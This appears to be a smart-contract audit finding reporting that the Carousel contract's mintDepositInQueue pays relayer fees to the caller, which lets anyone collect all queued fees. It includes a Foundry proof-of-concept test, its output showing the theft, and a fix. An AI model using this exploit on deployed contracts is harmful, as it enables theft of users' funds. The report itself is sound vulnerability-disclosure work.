 J4de

high

# Attackers can steal all `relayerFee` in the `Carousel` contract through `mintDepositInQueue`

## Summary

Attackers can steal all `relayerFee` in the `Carousel` contract through `mintDepositInQueue`.

## Vulnerability Detail

```solidity
    function mintDepositInQueue(uint256 _epochId, uint256 _operations)
        external
        epochIdExists(_epochId)
        epochHasNotStarted(_epochId)
        nonReentrant
    {
// --skip--
        QueueItem[] memory queue = depositQueue;
        uint256 length = depositQueue.length;
// --skip--
        if (_operations > length) _operations = length;
// --skip--
        asset.safeTransfer(msg.sender, _operations * relayerFee);
    }
```

`mintDepositInQueue` is used to process all late deposits in the `depositQueue`, each late deposit will have a `relayerFee`, and the `relayerFee` will be returned to the user.

The problem here is that the `relayerFee` returns the `msg.sender` instead of the owner of the deposit, and `mintDepositInQueue` function is external, then the attacker can steal all the `relayerFee` by calling this function.

This is my POC, insert it into `CarouselTest.t.sol` and run `forge test -vvv -m testJ4deAudit`.

```solidity
    function testJ4deAudit() public {
        // init
        uint40 _epochBegin = uint40(block.timestamp + 1 days);
        uint40 _epochEnd = uint40(block.timestamp + 2 days);
        uint256 _epochId = 1;
        uint256 _emissions = 100 ether;

        deal(emissionsToken, address(vault), 100 ether, true);
        vault.setEpoch(_epochBegin, _epochEnd, _epochId);
        vault.setEmissions( _epochId, _emissions);

        // USER1 late deposit 999 times, actually may be more,
        // because all late deposit operations are stored in a queue.
        uint256 depositCount = 999;
        vm.startPrank(USER);
        for (uint256 i = 0; i < depositCount; ++i) {
            IERC20(UNDERLYING).approve(address(vault), 1 ether);
            vault.deposit(0, 1 ether, USER);
        }
        vm.stopPrank();

        // USER2 steal assets
        console.log("USER2's balance: %d", IERC20(UNDERLYING).balanceOf(USER2));
        console.log(">>>>> USER2 HACK >>>>>");
        vm.startPrank(USER2);
        vault.mintDepositInQueue(_epochId, depositCount);
        vm.stopPrank();
        console.log("USER2's balance: %d", IERC20(UNDERLYING).balanceOf(USER2));
    }
```

Running result:

```sh
J4de@J4de:~/Earthquake$ forge test -vvv -m testJ4deAudit
[⠃] Compiling...
[⠔] Compiling 1 files with 0.8.17
[⠒] Solc 0.8.17 finished in 5.54s
Compiler run successful

Running 1 test for test/V2/Carousel/CarouselTest.t.sol:CarouselTest
[PASS] testJ4deAudit() (gas: 75794776)
Logs:
  USER2's balance: 1000000000000000000000
  >>>>> USER2 HACK >>>>>
  USER2's balance: 1000000001998000000000

Test result: ok. 1 passed; 0 failed; finished in 183.31ms
```

USER2 stole all relayerFee.

## Impact

Attacker can steal all the `relayerFee` by calling this function.

## Code Snippet

https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L354

## Tool used

Manual Review

## Recommendation

It is recommended to return the `relayerFee` to the deposit owner or add permissions to `mintDepositInQueue`.